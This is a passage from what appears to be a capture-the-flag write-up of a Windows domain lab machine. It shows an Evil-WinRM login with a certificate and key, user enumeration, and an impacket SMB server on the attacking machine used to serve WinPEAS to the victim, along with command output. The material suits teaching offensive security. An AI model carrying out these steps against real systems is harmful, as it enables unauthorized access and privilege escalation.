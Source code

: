 ## Evil-Winrm

**Evil-winrm** provide us ability to login into account using the private and the public key. **WinRM** (Windows Remote Management) is the Microsoft implementation of **WS-Management** Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.
This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port **5985**), of course only if you have credentials and permissions to use it. So we can say that it could be used in a post-exploitation **hacking/pentesting** phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff.

```powershell
evil-winrm -i 10.10.11.152  -c crt.crt -k key.key -u -p  -S
                                        
Info: Establishing connection to remote endpoint
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

# Privilege Escalation

As when we get shell into a windows domain machine, the very first thing come in our brain is to check the valid user's accounts that are running in the Domain environment and we found only six valid user account's.

```powershell
C:\Users\legacyy\Documents> net user
Enter PEM pass phrase:
User accounts for \\
-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.
```

After discovering user's Let's run **winpease.exe**(WinPEAS is a compilation of local Windows privilege escalation scripts to **check for cached credentials, user accounts, access controls, interesting files, registry permissions, service accounts, patch levels, and more**.). So first we need to run a **smbserver** in our attacking machine to host shares so that we can access it on victim machine. For this we will be using script called **smbserver.py** from impacket toolkit. 

```powershell
sudo smbserver.py share -username ab -password ab . -smb2support
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.152,53138)
[*] AUTHENTICATE_MESSAGE (\ab,DC01)
[*] User ab\DC01 authenticated successfully
```
